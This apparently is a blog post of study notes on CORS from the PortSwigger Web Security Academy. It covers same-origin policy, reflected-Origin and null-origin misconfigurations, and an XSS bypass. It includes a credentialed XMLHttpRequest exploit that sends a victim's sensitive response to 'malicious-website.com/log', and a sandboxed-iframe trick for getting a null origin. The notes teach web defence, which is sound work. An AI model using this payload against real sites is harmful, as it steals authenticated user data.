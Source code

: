 ```yaml
---
layout: post
title: Postswigger Web Security Academy - CORS
tags: [Notes, PortSwigger, web]
---
```


# What is Cross-Origin Resource Sharing

A browser mechanism which enables controlled access to resources located outside of a given domain.

It was originated from the **same-origin** policy, which limits the ability for a website to interact with resources outside of the source domain.
Same-origin policy generally allows a domain to issue requests to other domains, but not to access the responses.

CORS was introduced to allow trusted cross-origin accesses. It uses a suite of HTTP headers that define trusted web origins and associated properties such as whether authenticated access is permitted.
These are combined in a header exchange between a browser and the cross-origin web site that it is trying to access.

Consider the following server code

```javascript
import express from 'express'
// import cors from 'cors'

const app = express();

// app.use(cors())
app.get('/', (_, res) => {
  return res.status(200).json({ hello: 'world' })
})

app.listen(8080, () => {
  console.log('Server is running.')
})
```

If we `curl` it, the response looks normal

```
❯ curl 'http://localhost:8080'
{"hello":"world"}
```

However, if we access it using the following web page hosted at `http://localhost:12345`

```html
<!DOCTYPE html>
<html>
  <body>
    <script>
      window.onload = () => {
        fetch('http://localhost:8080/')
          .then(res => res.json())
          .then(res => {
            document.getElementById('hello').innerHTML = `hello = ${res['hello']}`
          })
      }
    </script>
    <div id="hello"></div>
  </body>
</html>
```

The request will fail because we are accessing a cross-origin resource, even though in developer tools the request returns HTTP 200.

![]({{"/assets/img/posts/cors/2.png" | relative_url}}){:style="display: block; margin: auto"}

![]({{"/assets/img/posts/cors/1.png" | relative_url}}){:style="display: block; margin: auto"}

Console output suggests

```
Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://localhost:8080/. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing). Status code: 200.
```

So even if the request succeeds, we cannot access the response.

If we allow cross-origin access by setting the CORS header, we can now access the response!

![]({{"/assets/img/posts/cors/5.png" | relative_url}}){:style="display: block; margin: auto"}

If we compare the two responses, the difference is the Access-Control-Allow-Origin header

![]({{"/assets/img/posts/cors/3.png" | relative_url}}){:style="display: block; margin: auto"}

![]({{"/assets/img/posts/cors/4.png" | relative_url}}){:style="display: block; margin: auto"}

# Common misconfigurations

## ACAO Header Generated by Client-Specific `Origin` Header

Some applications need to allow access from various domains.
Maintaining an allow list requires ongoing effort, so some of them instead allow access from any domain.

One way to do so is by setting the ACAO header to `Access-Control-Allow-Origin: *`, but it is too obvious for attackers.
Another way is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed.

For example, consider the following request

```
GET /data HTTP/2
Host: example.com
Origin: https://some.domain.com
...
```

The application responds with

```
HTTP/2 200 OK
Access-Control-Allow-Origin: https://some.domain.com
...
```

As we can see, `Access-Control-Allow-Origin` reflects the `Origin` header, which means that absolutely any domain can access resources from `example.com`.
Therefore, the attacker can retrieve response information by placing the following script on his website.

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

## Error Parsing `Origin` Header

Some applications need to allow access from various subdomains. If the check mechanisim is poorly implemented, for example checking if `Origin` starts or ends with specific domain, the check can be bypassed by crafting specialized domains.

For example, suppose an application grants access to all domains ending with `example.com`. The attacker could register a domain `hackerexample.com` and it will be granted access.

## Whitelist `null` origin value

[`null`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin#null) is a special origin in the specification. It may be sent by the browser in some unusual situations:
- Cross-origin redirects
- Requests from serialized data
- Requests using the `file:` protocol
- Sandboxed cross-origin requests (such as [`iframe`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox))

For example, consider the following web page

```html
<!DOCTYPE html>
<html>
  <body>
    <iframe sandbox="allow-scripts" src="data:text/html,
      <script>
        fetch('http://localhost:8080/')
      </script>">
    </iframe>
  </body>
</html>
```

We can log the `Origin` header and confirm the result

```javascript
import express from 'express'
import cors from 'cors'

const app = express();

app.use(cors())
app.get('/', (req, res) => {
  console.log(`Origin: ${req.headers['origin']}`)
  return res.status(200).json({ hello: 'world' })
})

app.listen(8080, () => {
  console.log('Server is running.')
})

// Server is running.
// Origin: null
```

If the `null` origin is allowed, the attacker could include the payload inside a `iframe` to bypass CORS restrictions.

## XSS

If a trusted website contains an XSS vulnerability, the attacker could access cross-origin resources even if CORS is configured correctly.
